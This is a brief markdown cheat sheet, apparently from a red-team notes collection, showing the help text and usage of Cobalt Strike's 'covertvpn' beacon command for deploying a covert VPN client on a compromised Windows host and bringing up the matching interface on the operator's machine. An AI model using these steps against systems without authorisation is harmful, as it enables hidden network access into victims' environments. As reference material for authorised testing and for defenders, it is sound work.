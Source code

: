 # Cobalt Strike

## 01 - Help Menu

```
beacon> help covertvpn
Use: covertvpn [interface] [ip address]

Deploy a Covert VPN to the target's system. You must have administrator
privileges for the client to work. 

Setup an [interface] through Cobalt Strike -> VPN Interfaces. The 
[ip address] is the IP address of the target interface you want to deploy
the VPN client to.
```

## 02 - Usage

> [!NOTE] Elevated Privileges is Required
> You must have elevated privileges on the windows target.

```
beacon> covertvpn phear0 <new_IPv4_address>

userware@hackware-os:~$ sudo ip address add <new_IPv4_address>/24 dev phear0
```